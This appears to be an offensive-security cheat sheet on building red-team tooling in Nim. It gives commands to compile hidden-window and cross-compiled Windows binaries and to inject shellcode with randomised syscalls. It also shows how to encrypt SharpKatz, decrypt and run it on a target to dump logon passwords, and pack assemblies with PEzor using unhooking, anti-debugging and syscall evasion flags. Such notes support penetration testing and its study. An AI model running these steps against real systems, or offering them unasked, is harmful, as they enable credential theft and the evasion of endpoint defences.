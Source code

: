 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim#why-nim](https://github.com/byt3bl33d3r/OffensiveNim#why-nim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the Nim binaries console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Repair the [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.




## Execute C# Assemblies

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

Compile on Linux:

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
```

Create encrypted base64 file:

```
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
```

Decrypt and run it on target:

```
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```



### Chaining with PEzor

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/phra/PEzor](https://github.com/phra/PEzor)

Convert a C# assembly to Nim array with a helper [script](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1):

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
```

Compile the executable and wrap it into PEzor:

```
Cmd > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
$ bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 execute_assembly_bin.exe -z 2
```
